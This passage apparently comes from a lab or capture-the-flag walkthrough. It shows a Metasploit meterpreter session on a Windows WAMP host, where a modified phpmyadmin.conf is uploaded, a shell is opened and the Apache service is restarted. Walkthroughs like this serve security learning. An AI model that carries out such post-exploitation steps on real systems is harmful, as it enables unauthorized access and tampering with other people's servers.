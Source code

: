 <figure><img src="../../.gitbook/assets/Screenshot from 2024-01-14 20-13-55.png" alt=""><figcaption></figcaption></figure>

```sh
meterpreter > upload phpmyadmin.conf
[*] uploading  : /root/phpmyadmin.conf -> phpmyadmin.conf
[*] Uploaded 416.00 B of 416.00 B (100.0%): /root/phpmyadmin.conf -> phpmyadmin.conf
[*] uploaded   : /root/phpmyadmin.conf -> phpmyadmin.conf
meterpreter > shell
Process 4676 created.
Channel 4 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp\alias>net stop wampapache
net stop wampapache
The wampapache service is stopping.
The wampapache service was stopped successfully.


C:\wamp\alias>net start wampapache
net start wampapache
The wampapache service is starting.
The wampapache service was started successfully.
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
